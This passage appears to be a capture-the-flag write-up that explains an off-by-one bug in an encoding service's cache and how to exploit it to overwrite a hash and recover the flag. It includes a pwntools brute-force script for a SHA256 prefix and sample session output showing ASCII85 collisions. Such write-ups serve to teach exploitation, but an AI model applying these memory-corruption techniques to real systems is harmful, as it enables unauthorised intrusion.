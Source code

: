 Each entry added to the cache is obtained by concatenating the encoding short name (plain/a85/hex)
and the result of the decoder/encoder. If such an entry already exists, nothing happens

It's not difficult to notice that there is an Off-by-one bug in the `put`, which allows us to
overwrite the first QWORD of the next cache cell (which is also a pointer to the sha256 hash)

## Exploitation

Let's fill the entire cache so that the counter will zero out and return a cell at the beginning
of the cache. Having filled the cell completely, we can use the Off-by-one bug to overwrite the
hash value of the next cell (containing the flag) with the precomputed hash of a special string.
Now it remains to encode this string into plain to get the flag from the cache.

### Choosing SHA256 hash

Since the hash is rewritten with a string in the format `encoder name + encoding result`, each
character of the name and result must be in the HEX alphabet. Only the ASCII85 encoder (abbr.
`a85`) is suitable for us. It is worth noting that the length of the decoded string must be a
multiple of 5 (group size)

```python {linenos=1}
from pwn import *

from hashlib import sha256
from itertools import product
from string import ascii_letters


for s in product(ascii_letters, repeat=5):
    SOURCE_STRING = ''.join(s).encode()
    h = sha256(SOURCE_STRING).hexdigest()

    if h[:3] == 'a85':
        log.info(f'String: {SOURCE_STRING}')
        log.info(f'Hash: {h}')

        HASH_PART = h[3:]
        HASH_PART += 'a' * (-len(HASH_PART) % 5)
        break
```

```plain
[*] String: b'aabss'
[*] Hash: a85b891727674ac83fa143bf4849b9a8e52550eafef891b3c7b01fd9d22ad5ef
```

### ASCII85 collision

Since we have only 2 decoders available, and we need to fill the cell with 6 unique entries, we
need to come up with a collision. ASCII85 allows to encode a variable number of bytes (from 1
to 4) in one group. Thus, splitting one string in different ways, we will get different strings
in ASCII85

```sh
Awaiting command...
plain a85 A
Success. Result: )R5p|
Awaiting command...
plain a85 AA
Success. Result: ll}o|
Awaiting command...
plain a85 AAA
Success. Result: Q4pU|
Awaiting command...
plain a85 AAAA
Success. Result: 5)w|K
```